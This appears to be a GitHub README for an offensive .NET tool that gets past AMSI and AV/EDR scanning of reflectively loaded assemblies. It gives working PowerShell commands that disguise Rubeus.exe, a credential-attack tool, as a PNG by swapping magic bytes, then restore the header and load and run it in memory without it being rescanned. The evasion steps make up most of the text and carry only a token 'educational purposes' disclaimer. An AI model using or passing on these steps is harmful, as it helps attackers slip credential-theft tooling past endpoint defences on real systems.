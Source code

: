 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 

## Why is this technique so powerful?
Because even if you bypass amsi, when you any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 

![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)


## Usage 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```


## Disclaimer
Should only be used for educational purposes!
